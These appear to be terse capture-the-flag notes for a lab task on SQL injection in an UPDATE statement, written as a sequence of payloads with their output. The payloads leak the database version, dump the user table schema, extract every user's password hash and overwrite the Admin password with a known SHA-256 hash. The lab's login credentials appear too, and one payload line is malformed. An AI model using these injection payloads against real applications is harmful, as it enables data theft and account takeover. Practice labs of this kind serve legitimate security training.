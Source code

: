 update the password for Admin using cyberchef
```sql
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -
```


TASK
- log into task 5
- `profileID: 10 `
- `password: toor `

```
test
hacked',nickName=sqlite_version(),email='

>> 3.22.0

test',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='usertable'),email='

--------------
CREATE TABLE `usertable` ( `UID` integer primary key, `name` varchar(30) NOT NULL, `profileID` varchar(20) DEFAULT NULL, `salary` int(9) DEFAULT NULL, `passportNr` varchar(20) DEFAULT NULL, `email` varchar(300) DEFAULT NULL, `nickName` varchar(300) DEFAULT NULL, `password` varchar(300) DEFAULT NULL )
-------------

test',nickName=(SELECT group_concat(profileID || "," || name || "," || password || ":") from usertable),email='

------------
10,Francois,ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a:,11,Michandre,05842ffb6dc90bef3543dd85ee50dd302f3d1f163de1a76eee073ee97d851937:,12,Colette,c69d171e761fe56711e908515def631856c665dc234a0aa404b32c73bdbc81ac:,13,Phillip,b6efdfb0e20a34908c092725db15ae0c3666b3cea558fa74e0667bd91a10a0d3:,14,Ivan,be042a70c99d1c438cdcbd479b955e4fba33faf4f8c494239257e4248bbcf4ff:,99,Admin,6ef110b045cbaa212258f7e5f08ed22216147594464427585871bfab9753ba25:
-----------


-- cyberchef
Password123  --> sha256 == 008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601


test',UPDATE profileID SET nickName='hacker', email='email'



test', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -






What is the flag for SQL Injection 5: UPDATE Statement?


```
